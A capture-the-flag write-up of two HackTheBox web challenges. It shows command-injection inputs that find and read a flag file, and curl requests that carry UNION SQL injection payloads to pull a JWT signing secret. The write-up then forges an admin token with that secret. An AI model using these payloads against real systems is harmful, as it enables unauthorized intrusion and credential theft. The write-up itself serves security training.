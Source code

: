```yaml
---
layout: post
category: writeup
---
```



![](assets/images/usfbanner.webp)

![](assets/images/htb-ctf-usf-1st.png)

- HTB hosted a CTF locally here at USF under our business platform
- we got to participate and ended up being 1st!
- my writeup on the various challenges

### DeLorean Clock 

#### Dr. Brown wants to jump on the web 3.0 bandwagon and make his DeLorean controllable via blockchain! He made a web interface of the DeLorean time clock but launching the DeLorean to a miscalculated date can create a time paradox, the result of which could cause a chain reaction that would unravel the very fabric of the space-time continuum and destroy the entire universe! Can you test if the web interface is accurate and secure?

- this challenge was quite easy as there wasn't much to attack
- we were faced with a singular input that seems like it maps to `utils.py` in the provided files:

```
import subprocess, os
from application import main

generate = lambda x: os.urandom(x).hex()

def format_date(timestr):
    try:
        formatCMD = f'date -d "{timestr}" +"%h %d %Y %H %M"'
        formatDate = subprocess.getoutput(formatCMD)
    except:
        formatDate = 'Jan 01 1970 00 00'
    return formatDate
```

- that is an obvious command injection
- search other files and i don't see any sanitization so i can input something like this

```
$(find / -name flag.txt 2>/dev/null)
```

![](assets/images/htb-ctf-usf-find-flag.png)

- all is left is to read the flag

```
$(cat /app/flag.txt)
```

![](assets/images/htb-ctf-usf-deloeran-clock-flag.png)

- flag: `HTB{d0nt_p4ss_Us3r_Inpu7s_t0_c0mm4ndl1n3}`

### MadDog Memorial 

#### You have been tasked with the pentesting engagement on the memorial website of the great Buford "Mad Dog" Tannen, who was a true patriotic countryman and the pride of Hill Valley! The Tannen family has asked you to find out any loopholes in the system and see if the admin account can be compromised. They don't want any teenager or a mad scientist to break in and discover the secrets they are hiding!

- this was a much more fun challenge, it involved an interesting exploit chain
- it starts with understanding the database structure:

```
DEVKEY=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 15 | head -n 1)
PRODKEY=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 15 | head -n 1)

mysql -u root << EOF
CREATE DATABASE tannen_memorial;

CREATE TABLE tannen_memorial.keystore (
  kid int(11) NOT NULL AUTO_INCREMENT,
  secret varchar(255) NOT NULL,
  PRIMARY KEY (kid)
);

INSERT INTO tannen_memorial.keystore VALUES (1,'${DEVKEY}');
INSERT INTO tannen_memorial.keystore VALUES (2,'${PRODKEY}');
```

- this create a database called `tannen_memorial` and in that database it creates a table called `keystore`, in there it has `kid` and `secret`.
- from there it inserts completely random values into the keystore secrets
- the next thing we need to understand is the jwt implementation, that exists in the `JSTHelpers.js` file:

```
sign(data, kid='2') {
		return new Promise(async (resolve, reject) => {
			try {
                keyData = keyStore.filter(i => i.kid == kid)
                if(keyData.length === 0) reject();
                resolve(jwt.sign(data, keyData[0].secret, {
			        algorithm: 'HS256',
			        header: { kid: kid }
		        }));
            } catch (e) {
				reject(e);
			}
        });
	}
```
- this clearly shows that it grabs the secret from the keystore where kid = 2 and sets it as the jwt secret
- so in my head at this point, i'm thinking if there is any way i can read the database i can possibly get the secret and exploit the jwt token
- which takes us to `database.js`:

```
   async getPost(id) {
        return new Promise(async (resolve, reject) => {
            let stmt = `SELECT * FROM posts WHERE id='${id}'`;
            this.connection.query(stmt, (err, result) => {
                if(err)
                    reject(err)
                resolve(result)
            })
        });
    }
```
- this function has a clear and obvious sqli in the `/posts/:id` endpoint
- i'll try a union sqli and attempto read the secret, i already know the table and column nanme so all i'll need to do is find the column # count.

- start by curling the `/posts/1` endpoint

```
$ curl http://161.35.173.232:31576/posts/1 -s | grep card 
              <div class="card ancient-card card-grid" style="max-width: 30rem; min-width: 20rem">
                <div class="card-body pt-0">
                  <img class="card-img-top" src="/static/images/mad1.jpg" alt="Post unavailable!">
                  <h4 class="card-title mb-1">The Hero</h4>
                  <p class="card-text">Our Ancestor, Buford Tannen, was regarded as a hero for catching the thieves who robbed the Pine City Stage back in 1885. Although he was suspected of robbing the stagecoach earlier, he cleared his name later by identifying the real culprit. He guided the chief marshal to the house of a man named Seamus McFly, where they discovered a payroll from the stagecoach in the house. Hill valley recognized Buford as a hero for his assistance in finding the robbers.</p>
```

- i next try to union select 1 column:

```
$ curl http://161.35.173.232:31576/posts/\'union%20select%201--%20- -s | grep card 
              <div class="card ancient-card card-grid" style="max-width: 30rem; min-width: 20rem">
                <div class="card-body pt-0">
                  <h4 class="card-title">ERROR</h4>
                  <p class="card-text">Opps! Something went wrong!</p>
```

- that results in an error, so i'll start adding #'s until i get different feedback

```
$ curl http://161.35.173.232:31576/posts/\'union%20select%201,2,3,4--%20- -s | grep card  
              <div class="card ancient-card card-grid" style="max-width: 30rem; min-width: 20rem">
                <div class="card-body pt-0">
                  <img class="card-img-top" src="/static/images/3" alt="Post unavailable!">
                  <h4 class="card-title mb-1">2</h4>
                  <p class="card-text">4</p>
```

- this returns the values 2 and 4 as seen in the h4 and p tags
- i can now try to read a secret from the keystore values

```
$ curl http://161.35.173.232:31576/posts/\'union%20select%201,secret,3,4%20from%20keystore--%20- -s | grep card 
              <div class="card ancient-card card-grid" style="max-width: 30rem; min-width: 20rem">
                <div class="card-body pt-0">
                  <img class="card-img-top" src="/static/images/3" alt="Post unavailable!">
                  <h4 class="card-title mb-1">yEgEoSOKXmT50LM</h4>
                  <p class="card-text">4</p>
```

- bingo! i got a secret, this must be the dev secret aka kid 1 i can try and see if that works by editing it in jwt.io

![](assets/images/htb-ctf-usf-maddog-jwt.png)

- note that i change the kid to 1 and the secret key at the bottom to the correct value
- i take that cookie and i submit it in my browser -> refresh -> and read the flag on the main page!

![](assets/images/htb-ctf-usf-maddog-flag.png)


### 